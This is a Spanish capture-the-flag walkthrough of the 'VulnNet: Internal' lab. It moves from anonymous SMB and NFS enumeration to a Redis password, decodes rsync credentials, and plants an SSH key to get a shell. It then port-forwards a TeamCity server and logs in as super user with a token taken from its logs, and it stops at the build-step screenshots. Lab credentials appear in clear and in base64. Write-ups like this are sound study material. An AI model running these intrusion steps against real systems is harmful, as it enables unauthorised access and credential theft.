<div align="center">
    
</div>

<div align="center">

# VulnNet: Internal <!-- omit in toc -->
<!-- Fácil-#228B06 | Media-#BFA907 | Difícil-#A62100 -->


</div>

<br>

<div align="center">

| | |
|---|---|
| **Tags** | [ **Information Disclosure**, **Sensitive Data Exposure**, **Port Forwarding**, **rsync**, **mount**, **smbclient**, **redis-cli**, **TeamCity**] |

</div>

## Índice  <!-- omit in toc -->

- [Escaneos](#escaneos)
- [Buscando el primer flag](#buscando-el-primer-flag)
- [Buscando el segundo flag](#buscando-el-segundo-flag)
- [Shell con sys-internal](#shell-con-sys-internal)
- [Shell con root - escalada de privilegios](#shell-con-root---escalada-de-privilegios)

<br>

Como dice el enunciado del reto: "*Se dieron cuenta que no pueden hacer de forma apropiada aplicaciones web seguras así que se rindieron con esa idea. En cambio, decidieron asignar servicios internos para propósitos de negocios*", por lo que no buscaremos servicios web (HTTP) en este caso. Tenemos varios puertos abiertos con diferentes sercicios, en el primero que empezamos es en el protocolo `rpc` haciendo una pequeña validación del servicio

<br>

### Escaneos

```shell
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.114.158.11 -oG target.log
```

```log
# Nmap 7.95 scan initiated Thu Nov  5 11:21:40 2026 as: nmap -p- --open -sS --min-rate 5000 -Pn -n -oG target.log 10.114.158.11
Host: 10.114.158.11 ()	Status: Up
Host: 10.114.158.11 ()	Ports: 22/open/tcp//ssh///, 111/open/tcp//rpcbind///, 139/open/tcp//netbios-ssn///, 445/open/tcp//microsoft-ds///, 873/open/tcp//rsync///, 2049/open/tcp//nfs///, 6379/open/tcp//redis///, 39297/open/tcp/////, 40461/open/tcp/////, 40719/open/tcp/////, 40933/open/tcp/////, 44801/open/tcp/////
# Nmap done at Thu Nov  5 11:22:00 2026 -- 1 IP address (1 host up) scanned in 19.79 seconds
```

<br>

```shell
nmap -p22,111,139,445,873,2049,6379,39297,40461,40719,44801 -sV -sC -vvv 10.114.158.11 -oN openPorts.log
```

Para ver el resultado del escaneo haz [click aquí](./assets/openPorts.log)

<br>

### Buscando el primer flag

Un poco de teoría:


> Servicio "**rpcbind**"
> 
> Es un servicio de red esencial en sistemas de tipo Unix y Linux que mapea los identificadores de programas de Llamada a Procedimiento Remoto (RPC) con los números de puertos de red (TCP/UDP) en los que están escuchando.
> 
> Servicio "**RPC**"
> 
> El RPC (siglas en inglés de Remote Procedure Call, o Llamada a Procedimiento Remoto) es un protocolo de comunicación que permite que un programa o cliente ejecute un bloque de código o función en otro ordenador o servidor remoto, haciendo que todo el proceso parezca una llamada local.

Entonces ya que el servicio `rpcbind` encontrado en el puerto `111` es el que está orquestando parte de los otros servicios en los diferentes puertos, empezamos por el servicio `rsync`, el cual está solicitando una contraseña que no tenemos (por ahora), así que pasaremos a otro servicio.

> [!NOTE]
> Hasta el momento no hemos empezado algun escaneo activo o explotación, simplemente estamos listando

<br>

```shell
❯ rsync --list-only rsync://10.114.158.11/files
Password: 
@ERROR: auth failed on module files
rsync error: error starting client-server protocol (code 5) at main.c(1954) [Receiver=3.5.0]
```

<br>

> [!IMPORTANT]
> ¿No sabes cuáles comandos puedes usar? ¿No sabes los flags básicos de algunas herramientas? Usa [esta herramienta](https://github.com/xhellhoundx/find_command) que he desarrollado, aloja algunos comandos para facilitar la búsqueda y la puedes modificar a tu gusto.

<br>

En este punto intento mirar el servicio `smb` por el puerto 445, y me encuentro que podemos acceder sin credenciales encontramos varios archivos interesantes que vamos a revisar posteriormente.

```shell
❯ smbclient -L //10.114.158.11 -p 139 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	shares          Disk      VulnNet Business Shares
	IPC$            IPC       IPC Service (ip-10-114-158-11 server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 10.114.158.11 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available

❯ smbclient -L //10.114.158.11 -p 445 -N
smb: \> ls
  .                                   D        0  Tue Feb  2 10:20:09 2021
  ..                                  D        0  Tue Feb  2 10:28:11 2021
  temp                                D        0  Sat Feb  6 12:45:10 2021
  data                                D        0  Tue Feb  2 10:27:33 2021

		15376180 blocks of size 1024. 2265340 blocks available
smb: \> cd temp
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 12:45:10 2021
  ..                                  D        0  Tue Feb  2 10:20:09 2021
  services.txt                        N       38  Sat Feb  6 12:45:09 2021

		15376180 blocks of size 1024. 2265336 blocks available
smb: \temp\> get services.txt
getting file \temp\services.txt of size 38 as services.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)

smb: \> cd data
smb: \data\> ls
  .                                   D        0  Tue Feb  2 10:27:33 2021
  ..                                  D        0  Tue Feb  2 10:20:09 2021
  data.txt                            N       48  Tue Feb  2 10:21:18 2021
  business-req.txt                    N      190  Tue Feb  2 10:27:33 2021

		15376180 blocks of size 1024. 2265336 blocks available
smb: \data\> get data.txt
getting file \data\data.txt of size 48 as data.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \data\> get business-req.txt 
getting file \data\business-req.txt of size 190 as business-req.txt (0.4 KiloBytes/sec) (average 0.3 KiloBytes/sec)

❯ cat services.txt
THM{[REDACTED]}
```

<br>

Encontramos el primer flag 'services.txt', el archivo 'data.txt' no parece tener nada interesante, pero el archivo 'business-req.txt' si pareciera tener algún tipo de mensaje que hasta el momento no encaja con alguna otra cosa, pero lo conservaremos.

```shell
❯ cat business-req.txt
We just wanted to remind you that we’re waiting for the DOCUMENT you agreed to send us so we can complete the TRANSACTION we discussed.
If you have any questions, please text or phone us.
```

<br>

### Buscando el segundo flag

En este punto, la información es un poco difusa, ya que tenemos un servicio que solocita contraseña (`rsync`) y lo más probable es que el servicio `redis` también lo haga, así que intentemos listar qué hay en el servicio `nfs` para poder montar algún directorio en nuestra máquina atacante, de esa forma continuamos extrayendo información, lo que sigue a continuación es el listado del servicio en cuestión el cual expone un directorio `/opt/conf` es el que usaremos para montar en nuestra máquina cuando montemos el directorio en nuestra máquina, notaremos que está el archivo `redis.conf` de la BBDD **redis**, allí encontraremos la contraseña para ingresar por el servicio correspondiente en el puerto `6379`.

Un poco de teoría:

> El protocolo "**NFS**"
> 
> Es un protocolo de red que permite a un equipo (cliente) acceder, leer, escribir o modificar archivos y directorios ubicados en un servidor remoto a través de una red local, como si estuvieran almacenados en su propio disco duro.

> [!IMPORTANT]
> El paquete para listar el servicio se llama `nfs-common` se puede instalar con `sudo apt install nfs-common`, normalmente suele alojarse en el directorio `/usr/sbin`, si no quieren usarlo como `sudo` pueden hacer un symlink al directorio `/usr/bin/`

<br>

```shell
❯ showmount -e 10.114.158.11
Export list for 10.114.158.11:
/opt/conf *

❯ sudo mount -t nfs 10.114.158.11:/opt/conf /mnt/vulnnet

❯ /usr/bin/ls -la /mnt/vulnnet
total 32
drwxr-xr-x 9 root root 4096 Feb  2  2021 .
drwxr-xr-x 1 root root   14 Nov  5 11:42 ..
drwxr-xr-x 2 root root 4096 Feb  2  2021 hp
drwxr-xr-x 2 root root 4096 Feb  2  2021 init
drwxr-xr-x 2 root root 4096 Feb  2  2021 opt
drwxr-xr-x 2 root root 4096 Feb  2  2021 profile.d
drwxr-xr-x 2 root root 4096 Feb  2  2021 redis
drwxr-xr-x 2 root root 4096 Feb  2  2021 vim
drwxr-xr-x 2 root root 4096 Feb  2  2021 wildmidi

❯ grep -in "pass" /mnt/vulnnet/redis/redis.conf
81:# 2) No password is configured.
286:# If the master is password protected (using the "requirepass" configuration
291:# masterauth <master-password>
306:requirepass "[REDACTED]"
403:# resync is enough, just passing the portion of data the slave missed while
494:# Require clients to issue AUTH <PASSWORD> before processing any other
502:# 150k passwords per second against a good box. This means that you should
503:# use a very strong password otherwise it will be very easy to break.
```

> [!NOTE]
> Para desmontar el directorio montado basta hacer `sudo umount /mnt/[nombre-del-directorio]

<br>

Ahora que tenemos la contraseña accedemos por el servicio `redis` a traves del comando `redis-cli`

```shell
redis-cli -h 10.114.158.11 -p 6379 -a B65Hx562F@ggAZ@F
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.114.158.11:6379> info keyspace
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
10.114.158.11:6379> keys *
1) "marketlist"
2) "authlist"
3) "int"
4) "internal flag"
5) "tmp"

10.114.158.11:6379> get "internal flag"
"THM{[REDACTED]}"
```

<br>

Obtenemos el segundo flag 'internal flag' y listamos "authlist" que nos va a dar varias cadenas de texto codificadas en `base64`


```shell
10.114.158.11:6379> lrange "marketlist" 0 -1
1) "Machine Learning"
2) "Penetration Testing"
3) "Programming"
4) "Data Analysis"
5) "Analytics"
6) "Marketing"
7) "Media Streaming"
10.114.158.11:6379> lrange "authlist" 0 -1
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
4) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```

<br>

### Shell con sys-internal

Esas cadenas las metemos en un archivo y las decodificamos con `base64 -d`

```shell
❯ echo '1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
4) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="' | awk -F' ' '{print $2}' | cut -d'"' -f2 > authlist-encoded.txt

❯ base64 -d authlist-encoded.txt
Authorization for rsync://rsync-connect@127.0.0.1 with password [REDACTED]
Authorization for rsync://rsync-connect@127.0.0.1 with password [REDACTED]
Authorization for rsync://rsync-connect@127.0.0.1 with password [REDACTED]
Authorization for rsync://rsync-connect@127.0.0.1 with password [REDACTED]
```

<br>

Perfecto, ahora tenemos las credenciales para entrar por el servicio `rsync`, vamos a volver a listar el servicio y ahora como tenemos la contraseña podemos avanzar un poco más en el path interno, encontraremos el directorio del usuario **sys-internal**, en este punto tendríamos que cargar un archivo a nuestra conveniencia para poder ingresar por el servicio `SSH` por lo que pienso en crear un archivo `authorized_keys` en conjunto con el par de llaves **rsa** y dejarlo en su directorio `.ssh`.

```shell
❯ rsync --list-only rsync://10.114.158.11/files
Password: 
❯ rsync --list-only rsync://10.114.158.11
❯ rsync --list-only rsync://10.114.158.11
files          	Necessary home interaction
❯ rsync --list-only rsync://rsync-connect@10.114.158.11/files
Password: 
drwxr-xr-x          4,096 2026/11/05 11:18:40 .
drwxr-xr-x          4,096 2025/06/28 18:16:36 ssm-user
drwxr-xr-x          4,096 2021/02/06 13:49:29 sys-internal
drwxr-xr-x          4,096 2026/11/05 11:18:40 ubuntu
❯ rsync --list-only rsync://rsync-connect@10.114.158.11/files/sys-internal
Password: 
drwxr-xr-x          4,096 2021/02/06 13:49:29 sys-internal
```

<br>

Creamos el par de llaves **rsa** (pública y privada) y las añadimos al path correspondiente a través del servicio `rsync`, posteriormente ingresamos por el servicio `SSH`

> [!NOTE]
> 
> Las llaves pueden estar sin contraseña

```shell
❯ ssh-keygen -t rsa -f id_rsa
Generating public/private rsa key pair.
Enter passphrase for "id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:XvpB5Rgv2LarvzIKQ8d9MNYB7DOrFpdEppfOcP2nKnk hellhound@parrot
The key's randomart image is:
+---[RSA 3072]----+
|       ....      |
|        +. .     |
|       =+oo .    |
|     .ooO=.*     |
|    . oBS=O.o    |
|   . ...** o. .  |
|    o  +o.o  o   |
|     oo =.Eo.    |
|     ....B*o     |
+----[SHA256]-----+
❯ cat id_rsa.pub > authorized_keys
❯ rsync authorized_keys rsync://rsync-connect@10.114.158.11/files/sys-internal/.ssh
Password:
```

<br>

Ingresamos por el puerto `22` servicio `SSH`

```shell
❯ ssh -i id_rsa sys-internal@10.114.158.11
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

...

sys-internal@ip-10-114-158-11:~$ whoami;id;groups;pwd
sys-internal
uid=1000(sys-internal) gid=1000(sys-internal) groups=1000(sys-internal),24(cdrom)
sys-internal cdrom
/home/sys-internal
sys-internal@ip-10-114-158-11:~$ ls -la
total 108
drwxr-xr-x 18 sys-internal sys-internal 4096 Feb  6  2021 .
drwxr-xr-x  5 root         root         4096 Nov  5 11:18 ..
lrwxrwxrwx  1 root         root            9 Feb  1  2021 .bash_history -> /dev/null
-rw-r--r--  1 sys-internal sys-internal  220 Feb  1  2021 .bash_logout
-rw-r--r--  1 sys-internal sys-internal 3771 Feb  1  2021 .bashrc
drwxrwxr-x  8 sys-internal sys-internal 4096 Nov  5 13:23 .cache
drwxrwxr-x 14 sys-internal sys-internal 4096 Feb  1  2021 .config
drwx------  3 sys-internal sys-internal 4096 Feb  1  2021 .dbus
drwx------  2 sys-internal sys-internal 4096 Feb  1  2021 Desktop
-rw-r--r--  1 sys-internal sys-internal   26 Feb  1  2021 .dmrc
drwxr-xr-x  2 sys-internal sys-internal 4096 Feb  1  2021 Documents
drwxr-xr-x  2 sys-internal sys-internal 4096 Feb  1  2021 Downloads
drwx------  3 sys-internal sys-internal 4096 Feb  1  2021 .gnupg
drwxrwxr-x  3 sys-internal sys-internal 4096 Feb  1  2021 .local
drwx------  5 sys-internal sys-internal 4096 Feb  1  2021 .mozilla
drwxr-xr-x  2 sys-internal sys-internal 4096 Feb  1  2021 Music
drwxr-xr-x  2 sys-internal sys-internal 4096 Feb  1  2021 Pictures
-rw-r--r--  1 sys-internal sys-internal  807 Feb  1  2021 .profile
drwxr-xr-x  2 sys-internal sys-internal 4096 Feb  1  2021 Public
lrwxrwxrwx  1 root         root            9 Feb  2  2021 .rediscli_history -> /dev/null
drwxrwxr-x  2 sys-internal sys-internal 4096 Nov  5 13:20 .ssh
-rw-r--r--  1 sys-internal sys-internal    0 Feb  1  2021 .sudo_as_admin_successful
drwxr-xr-x  2 sys-internal sys-internal 4096 Feb  1  2021 Templates
drwx------  4 sys-internal sys-internal 4096 Feb  2  2021 .thumbnails
-rw-------  1 sys-internal sys-internal   38 Feb  6  2021 user.txt
drwxr-xr-x  2 sys-internal sys-internal 4096 Feb  1  2021 Videos
-rw-------  1 sys-internal sys-internal   61 Feb  6  2021 .Xauthority
-rw-r--r--  1 sys-internal sys-internal   14 Feb 12  2018 .xscreensaver
-rw-------  1 sys-internal sys-internal 2546 Feb  6  2021 .xsession-errors
-rw-------  1 sys-internal sys-internal 2546 Feb  6  2021 .xsession-errors.old
sys-internal@ip-10-114-158-11:~$ cat user.txt 
THM{[REDACTED]}
```

<br>

### Shell con root - escalada de privilegios

Obtenemos el tercer flag 'user.txt', ahora tendríamos que escalar privilegios hasta **root**. Tras buscar un poco por el sistema, listar otros usuarios, servicios y binarios, decido listar los procesos y encuentro un proceso llamado "TeamCity", el cual además, tiene un directorio en el directorio raíz `/` (`/TeamCity`), así que decido investigar un poco al respecto, un poco de teoría: 

> 
> **TeamCity** es un servidor de integración continua y entrega continua (CI/CD) desarrollado por JetBrains.
> 
> Sirve para automatizar el ciclo de vida del desarrollo de software: compila el código, ejecuta pruebas automáticas y despliega aplicaciones de forma rápida y confiable cada vez que un desarrollador realiza cambios.

<br>

```shell
sys-internal@ip-10-114-158-11:$ ps aux | grep -w "root" | grep -v "\["

# ps aux -> lista servicios
# grep -w "root" -> filtra por la palabra "root"
# grep -v "\[" -> Evita el patrón seleccionado, de esta forma limpiamos de servicios o daemons
```

<br>

Tras revisar el directorio `/TeamCity` no logré encontrar en qué puerto está corriendo pero podemos buscar en la web su puerto por defecto, en efecto el puerto `8111` está abierto así que hacemos **Port Forwarding** para ver el servicio en nuestra máquina atacante.

```shell
sys-internal@ip-10-114-158-11:/TeamCity/conf$ ss -tulnp | grep 8111
tcp   LISTEN 0      100    [::ffff:127.0.0.1]:8111               *:*
```

<br>

En nuestra máquina atacante: 

```shell
❯ ssh -i id_rsa -L 8000:127.0.0.1:8111 sys-internal@10.114.158.11
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)
...
sys-internal@ip-10-114-158-11:~$
```

<br>

Luego tenemos que autenticarnos como `Super user` para eso simplemente buscamos en internet dónde podríamos encontrar el token de autorización, normalmente encontraremos que en el directorio `/logs/` de `TeamCity`, como no tenemos permisos de lectura en los archivos de log, hacemos una búsqueda más genérica por patrón y encontraremos los últimos logs usados.

<div align="center">
    
    <br>
    <em>Página inicial de TeamCity corriendo en nuestra máquina</em>
    <br><br>
    
    <br>
    <em>Algunos tokens usados anteriormente, seleccionamos el último</em>
    <br><br>
    
    <br>
    <em>Ingresamos como Super user</em>
    <br><br>
    
    <br>
    <em>Creamos un nuevo proyecto</em>
    <br><br>
    
    <br>
    <em>Hay que nombrar el proyecto, asegurare que esté en "manually"</em>
    <br><br>
    
    <br>
    <em>Vamos a "Create build configuration"</em>
    <br><br>
    
    <br>
    <em>Creamos un nombre para la configuración, también debe estar en "manually"</em>
    <br><br>
    
    <br>
    <em>Creamos un nombre para la configuración</em>
    <br><br>
    
    <br>
    <em>Vamos ahora a "Add build step"</em>
    <br><br>
